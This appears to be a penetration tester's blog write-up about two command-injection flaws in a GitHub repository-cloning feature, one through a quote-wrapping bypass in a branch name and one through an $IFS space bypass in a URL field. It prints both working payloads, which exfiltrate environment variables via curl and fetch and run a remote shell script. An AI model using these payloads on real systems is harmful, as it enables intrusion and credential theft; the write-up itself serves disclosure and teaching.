 ```yaml
---
layout: post
title:  "Remote Code Execution with GitHub Feature"
date:   2025-06-13
---
```


Last year, I assessed a popular application used by thousands of organizations and discovered a remote code execution (RCE) vulnerability.

Several months later, I had the opportunity to retest the application and identified a new parameter that bypassed validation, once again resulting in successful code execution.

## Discovering the Vulnerability
A feature in the application allowed users to connect a GitHub repository, which the application would run a daily job to clone and scan the repository. Initially, the clone operation failed due to incorrect access token permissions. The next day, an events endpoint revealed a stack trace detailing the failure, which exposed that an OS-level command was used for cloning. This prompted me to investigate further.

I later discovered that the application's compiled source code was publicly accessible on the vendor's help site. Although the platform is license-restricted, using a decompiler (jadx) to analyze the downloaded code provided the insights I needed.

<figure>
  <img src="/assets/img/2025/stack-trace-disclosing-os-cmd.png">
  <figcaption>Figure 1 – Error disclosed an OS command being run daily to clone a GitHub repository when an access token has missing privileges</figcaption>
</figure>

## Path to Exploitation
By analyzing the full command in the stack trace and reviewing the decompiled code in jadx, I discovered that the branch name parameter was vulnerable to command injection due to a flaw in the input validation logic. The application passed the branch name to a method called **wrapQuotes...**, which only added quotes if the input wasn't already wrapped. If the branch name started and ended with double quotes, the method returned it unmodified—allowing crafted input to bypass validation and break out of the command context. Otherwise, the input would be safely quoted or result in an error.

<figure>
  <img src="/assets/img/2025/bypass-to-rce-sourcecode.png">
  <figcaption>Figure 2 – Highlighted code block is the condition needed for command injection</figcaption>
</figure>

Once I understood the conditions required for successful injection, I crafted a payload that cloned my GitHub repository and executed a **curl** command to exfiltrate environment variables to a server I controlled. The daily job ran the payload early the next morning while I was asleep. After reviewing the results, I documented the vulnerability and prepared the report for the customer.

<pre>
"main" https://github.com/:myGitHubUser/test .; curl -X POST -d "`printenv && ls -la /redacted && ps -aux`" "https://remoteserver.com/"
</pre>

<figure>
  <img src="/assets/img/2025/rce-env-vars.png">
  <figcaption>Figure 3 – Successfully retrieved the server's environment variables</figcaption>
</figure>

## Bypass to Achieve Code Execution Again
Months later, when I had the opportunity to retest the application, I began by reviewing the latest source code to check if the branch name was still vulnerable. I confirmed that proper input validation had been implemented, restricting the allowed characters and preventing the previous injection method. I then explored alternative vectors and identified a field on a different page that allowed users to specify the GitHub repository URL for scanning. Although some input validation was in place, I was eventually able to bypass it after numerous attempts.

The repository URL field enforced input validation that disallowed spaces and required the string to begin with **https**. While researching potential bypass techniques, I came across the Linux shell's Internal Field Separator (IFS) variable, which can be used to substitute spaces in command injection scenarios. After several days of testing—limited by the application's once-daily job execution—I eventually crafted a working payload that successfully bypassed the restrictions and achieved code execution.

<pre>
https://github.com/:myGitHubUser/test;curl$IFS$1-s$IFS$1'https://gist.githubusercontent.com/:myGitHubUser/:uuid/raw/:uuid/test.sh'$IFS$1-o$IFS$1'/tmp/test.sh';/bin/sh$IFS$1/tmp/test.sh$IFS$1Y3VybCAtZCAiYHByaW50ZW52ICYmIGxzIC1sYSAvcmVkYWN0ZWQvZ2xvYmFsLyAmJiBwcyAtYXV4YCIgaHR0cHM6Ly9leGFtcGxlLmNvbQ;echo$IFS$1
</pre>

The payload cloned my repository, executed a **curl** command to download a shell script onto the server, and then ran the script with a base64-encoded input string containing OS commands to be executed on the server.

Following the report submission, the customer implemented proper input validation on the repository URL parameter to remediate the command injection vulnerability.
